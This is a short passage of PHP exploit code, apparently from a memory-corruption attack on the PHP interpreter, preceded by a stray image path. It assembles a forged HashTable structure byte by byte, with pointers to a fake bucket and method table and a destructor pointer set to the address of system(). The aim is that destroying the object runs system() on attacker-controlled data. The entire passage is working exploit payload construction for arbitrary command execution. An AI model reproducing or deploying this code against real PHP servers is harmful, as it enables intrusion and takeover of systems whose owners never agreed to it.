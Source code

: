 	# The second pointer points to meth, and is used before reaching the
	# arbitrary function call
	# The third one and the last one are both used by the function call
	# zend_object_std_dtor(object) =&gt; ... =&gt; system(&amp;arData[0]-&gt;val)
	$properties = 
		# refcount
		ptr2str(1) .
		# u-nTableMask meth
		ptr2str($payload_start + strlen($bucket)) .
		# Bucket arData
		ptr2str($payload_start) .
		# uint32_t nNumUsed;
		ptr2str(1, 4) .
	    # uint32_t nNumOfElements;
		ptr2str(0, 4) .
		# uint32_t nTableSize
		ptr2str(0, 4) .
		# uint32_t nInternalPointer
		ptr2str(0, 4) .
		# zend_long nNextFreeElement
		$z .
		# dtor_func_t pDestructor
		ptr2str($addresses['system'])
	;

	$payload =
		$bucket .
		$meth .
		$properties
	;
